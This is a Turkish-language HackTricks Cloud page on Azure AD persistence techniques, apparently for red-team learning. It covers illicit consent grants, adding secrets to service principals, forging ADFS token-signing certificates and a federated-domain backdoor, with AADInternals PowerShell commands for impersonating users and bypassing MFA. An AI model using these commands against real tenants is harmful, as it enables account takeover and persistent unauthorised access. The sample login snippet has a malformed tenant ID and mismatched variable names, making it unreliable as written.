 # Az - Kalıcılık

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek paylaşın**.

</details>

### Yasadışı Onay Verme

Varsayılan olarak, herhangi bir kullanıcı Azure AD'de bir uygulama kaydedebilir. Bu nedenle, hedef kiracı için yüksek etki izinlere ihtiyaç duyan bir uygulama kaydedebilirsiniz ve yönetici onayıyla (eğer yöneticiyseniz onaylayabilirsiniz) - kullanıcının adına posta gönderme, rol yönetimi vb. gibi. Bu, başarılı bir durumda çok **verimli** olacak bir şekilde **saldırıları** gerçekleştirmemizi sağlar.

Ayrıca, uygulamayı kendi kullanıcınızla kabul ederek üzerinde erişimi sürdürmek de mümkündür.

### Uygulamalar ve Hizmet İlkeleri

Uygulama Yöneticisi, GA veya microsoft.directory/applications/credentials/update izinlerine sahip özel bir rol ile mevcut bir uygulamaya kimlik bilgileri (gizli veya sertifika) ekleyebiliriz.

Yüksek izinlere sahip bir uygulamayı **hedef almak** veya yüksek izinlere sahip bir **yeni bir uygulama eklemek** mümkündür.

Uygulamaya eklemek için ilginç bir rol, **Ayrıcalıklı kimlik doğrulama yöneticisi rolü** olabilir, çünkü Global Yöneticilerin **şifresini sıfırlama** izni verir.

Bu teknik ayrıca **MFA'yı atlamaya** olanak sağlar.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Sertifika tabanlı kimlik doğrulama için

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federasyon - Token İmzalama Sertifikası

On-prem AD'de **DA yetkileriyle**, çok uzun bir geçerlilik süresine sahip **yeni Token imzalama** ve **Token Şifreleme sertifikaları** oluşturmak ve bunları içe aktarmak mümkündür. Bu, ImuutableID'sini bildiğimiz herhangi bir kullanıcı olarak **giriş yapmamıza** olanak sağlayacaktır.

Aşağıdaki komutu **ADFS sunucusunda DA olarak çalıştırın** yeni sertifikalar oluşturmak için (varsayılan şifre 'AADInternals'), bunları ADFS'e ekleyin, otomatik yenilemeyi devre dışı bırakın ve hizmeti yeniden başlatın:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Ardından, Azure AD ile sertifika bilgilerini güncelleyin:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federasyon - Güvenilen Etki Alanı

Bir kiracıda GA yetkileriyle, **yeni bir etki alanı eklemek** (doğrulanmış olmalıdır) mümkündür, kimlik doğrulama türünü Federasyon olarak yapılandırmak ve etki alanını belirli bir sertifikaya (aşağıdaki komutta any.sts) ve yayıncıya güvenmek için yapılandırmak mümkündür:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referanslar

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>
